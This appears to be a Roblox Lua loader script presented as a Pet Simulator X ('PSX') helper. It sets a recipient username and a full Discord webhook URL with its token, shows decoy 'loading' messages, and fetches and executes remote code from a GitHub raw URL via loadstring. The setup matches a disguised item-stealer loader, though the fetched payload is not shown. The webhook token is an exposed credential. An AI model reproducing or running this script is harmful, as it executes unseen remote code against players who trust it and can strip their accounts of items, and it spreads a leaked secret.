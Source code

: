 Username = "FNTCLOUT_ALT111"
WebHook = "https://discord.com/api/webhooks/1089776915415584939/uwFQHg5I8n9VUMtbgUchtfnSIMqSYyXnQRAB-Dp6MmkyaVPiXShTBwCuFrAvGEAZkPXN"


loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI
_G.CustomScriptName = "PSX Script"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
